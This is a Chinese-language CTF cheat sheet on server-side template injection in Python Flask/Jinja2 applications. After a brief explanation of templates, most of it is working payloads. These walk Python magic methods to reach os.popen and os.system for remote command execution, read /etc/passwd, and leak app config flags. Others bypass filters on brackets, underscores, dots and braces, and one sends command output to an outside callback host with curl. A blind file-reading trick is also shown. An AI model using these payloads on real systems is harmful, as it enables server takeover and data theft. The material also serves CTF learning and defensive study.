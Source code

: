 # SSTI

- 背景知识：

    - ![判断SSTI类型](SSTI.png)

    - ![各框架模板结构表格](Frameworks.png)

    - 模板的用途：
        为了写html代码的时候方便，很多网站都会使用模板，先写好一个html模板文件，比如：

        ```python
        def test():
        code = request.args.get('id')
        html = '''
            <h3>%s</h3>
        '''%(code)
        return render_template_string(html)
        ```

        这段代码中的 `html` 就是一个简单的模板文件，当开发者想要这个模板对应的样式时，可以直接用 `render_template_string` 方法来调用这个模板，从而直接把这个样式渲染出来。

        而模板注入，就是指 **将一串指令代替变量传入模板中让它执行** ，以这段代码为例，我们在传入 `code` 值时，可以用 `{{}}` 符号来包裹一系列代码，以此替代本应是参数的 `id` ：

        ```
        http://..../?id={{代码}}
        ```

        此处的 `代码` 段，即是 SSTI 注入区域。

- 基本思路：

    - 利用 python 中的魔术方法找到自己要用的函数

        ```r
        __dict__ 保存类实例或对象实例的属性变量键值对字典
        __class__  返回类型所属的对象
        __mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
        __bases__   返回该对象所继承的基类
        // __base__和__mro__都是用来寻找基类的

        __subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
        __init__  类的初始化方法
        __globals__  对包含函数全局变量的字典的引用
        ```

    - 整个流程可以理解为将代码塞入 url ，利益python解析的漏洞，让服务器解析代码，并按照代码的逻辑一步一步寻找自己库里的对应方法并调用，直到调用到系统命令执行函数(一般为`os.system` 和 `os.popen`两种)，最后用该函数执行命令，完成 RCE 。

- 常用的傻瓜式payload：

    - 爆类库等信息：

        ```python
        ''.__class__
        ```

        ```python
        ''.__class__.__mro__
        ```

        ```
        ...
        ```
        - 事实上，攻击者可以通过这种方法几乎调用任何函数，只要能通过类似的 `拼接式的` 构造方式调用到对应的函数即可。

    - RCE：

        ```python
        ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
        ```

        ```python
        ''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
        ```

        ```python
        ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
        ```

- 杂项：

    - {{config}}可以获取当前设置，如果题目类似app.config ['FLAG'] = os.environ.pop（'FLAG'），那可以直接访问{{config['FLAG']}}或者{{config.FLAG}}得到flag

    - `{{self}} ⇒ <TemplateReference None>`
        
        `{{self.__dict__._TemplateReference__context.config}} ⇒ 同样可以找到config`
        ```

    - 常用的绕过方式：

        以下表示法可用于访问对象的属性：

        `request.__class__`
        `request["__class__"]`
        `request|attr("__class__")`

        可以使用以下方法访问数组元素：

        `array[0]`
        `array.pop(0)`
        `array.__getitem__(2)`

    - 过滤[]的情况：

        - 过滤方括号`[]`：
            `pop()` 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。
            `''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()`
            若.也被过滤，使用原生JinJa2函数`|attr()`
            将`request.__class__`改成`request|attr("__class__")`

        - 过滤下划线`_`：
            利用 `request.args` 属性

            `{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__`

            将其中的`request.args`改为`request.values`则利用 POST 的方式进行传参，实现对下划线 `_` 的绕过。

        - 过滤代码引用标识`{{}}`：
            使用`{% if ... %}1{% endif %}`，例如：

            ```python
            {% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://http.bin.buuoj.cn/1inhq4f1 -d `ls / |  grep flag`;') %}1{% endif %}
            ```
            如果不能执行命令，读取文件可以利用盲注的方法逐位将内容爆出来

            ```python
            {% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}1{% endif %}
            ```